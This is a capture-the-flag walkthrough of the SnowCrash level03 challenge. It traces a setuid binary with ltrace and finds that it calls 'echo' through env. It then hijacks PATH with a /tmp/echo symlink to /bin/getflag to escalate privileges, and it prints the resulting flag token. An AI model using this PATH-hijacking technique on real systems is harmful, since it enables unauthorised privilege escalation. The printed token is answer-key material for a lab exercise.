 # SnowCrash Level03 Walkthrough

level03 is about binary exploit and how can we use what an excetuable file has to our advantage

right away when we log in to the level03 user we find an executalbe name level03 when we execute it we 

```
level03@SnowCrash:~$ ./level03
Exploit me
```

we are going to inspect all the function calls in that executable using ltrace command 

The ltrace command is a debugging and diagnostic tool in Linux used to trace library calls made by a program. It intercepts and records these calls, allowing you to see which functions are being called, with what arguments, and what their return values are.

```
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7a4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                        = 2003
geteuid()                                        = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 0
+++ exited (status 0) +++
```

right away we see a system call calling echo, and that is a place where we can execute something depending on the echo command

but first we need to know what to execute

if we inspect the binaries we have we will find this :

```
level03@SnowCrash:~$ ls -la /bin
...
-rwxr-xr-x 1 root root   11833 Aug 30  2015 getflag
...
```

we see that only the root can execute this 

```
level03@SnowCrash:~$ getflag
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```

now we are going to create a file called echo in the /tmp directory

after we are going to create a symbolic link that binds getflag to /tmp/echo

```
ln -s /bin/getflag /tmp/echo
```

and we are going to execute it and see the results 

```
level03@SnowCrash:~$ /tmp/echo
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```

now we are going to modify the PATH variable like this 

```
level03@SnowCrash:~$ export PATH=/tmp
level03@SnowCrash:~$ export | /bin/grep PATH
declare -x PATH="/tmp"
```

and after it we are going to execute the executable:

```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

and we get the flag, so now we can move to the next level

